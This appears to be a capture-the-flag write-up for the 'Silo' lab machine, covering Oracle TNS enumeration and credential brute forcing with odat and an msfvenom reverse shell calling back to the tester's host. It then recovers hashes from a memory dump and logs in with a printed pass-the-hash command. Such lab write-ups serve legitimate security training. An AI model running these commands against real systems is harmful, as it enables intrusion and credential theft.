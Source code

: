## Silo

Difficulty: Medium

### User and Root Flag

```
rustscan -a 10.10.10.82 --ulimit 5000 -- -A -sV -sC -oN nmap.txt -Pn
```

![nmap](https://github.com/b1d0ws/OSCP/assets/58514930/31be8266-2d50-4e92-b848-8261f0339e7a)

<br>

Searching for Oracle TNS listener pentest, we find this tool called odat.

We first need to find SIDs and brute force users.

```
# Find sids
python3 odat.py sidguesser -s silo.htb -p 1521 --sids-file=resources/sids.txt

Brute force credentials.
python3 odat.py passwordguesser -s silo.htb -d XE
```

![findSid](https://github.com/b1d0ws/OSCP/assets/58514930/b2523bbf-3005-4926-b343-e451facf2c8e)

![bruteForceUser](https://github.com/b1d0ws/OSCP/assets/58514930/7bf3fb73-88f8-4114-83fd-662de7c538e2)

<br>

Finding valid credentials, we can upload a reverse shell executable.

```
# Creating payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.21 LPORT=1337 -f exe > revshell.exe

# Uploading file
python3 odat.py utlfile -s silo.htb --sysdba -d XE -U scott -P tiger --putFile /temp shell.exe ../revshell.exe

# Getting reverse shell
python3 odat.py externaltable -s silo.htb --sysdba -d XE -U scott -P tiger --exec /temp shell.exe
```

![generatePayload](https://github.com/b1d0ws/OSCP/assets/58514930/b07b4e54-6815-46d6-b36b-53f8a6682532)

![reverseShell](https://github.com/b1d0ws/OSCP/assets/58514930/1ea5131d-8545-4120-a6f7-ff08f7165970)

#### Extra

```
# There is this file "Oracle issue.txt" on desktop, but the password is not being displayed correctly.

# Convert to base64 on Windows
$fc = Get-Content "Oracle issue.txt"
$fe = [System.Text.Encoding]::UTF8.GetBytes($fc)
[System.Convert]::ToBase64String($fe)

# Read it on Linx
echo -n "U3VwcG9ydCB2ZW5kb3IgZW5nYWdlZCB0byB0cm91Ymxlc2hvb3QgV2luZG93cyAvIE9yYWNsZSBwZXJmb3JtYW5jZSBpc3N1ZSAoZnVsbCBtZW1vcnkgZHVtcCByZXF1ZXN0ZWQpOiAgRHJvcGJveCBsaW5rIHByb3ZpZGVkIHRvIHZlbmRvciAoYW5kIHBhc3N3b3JkIHVuZGVyIHNlcGFyYXRlIGNvdmVyKS4gIERyb3Bib3ggbGluayAgaHR0cHM6Ly93d3cuZHJvcGJveC5jb20vc2gvNjlza3J5emZzemI3ZWxxL0FBRFpuUUViYnFEb0lmNUwyZDBQQnhFTmE/ZGw9MCAgbGluayBwYXNzd29yZDogwqMlSG04NjQ2dUMk" | base64 -d

# With this we get access to a dump file. We can extract hashes using volatitility.
volatility -f SILO-20180105-221806.dmp --profile Win2012R2x64 hashdump

# Login with pass the hash
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7 //10.10.10.82 cmd
```
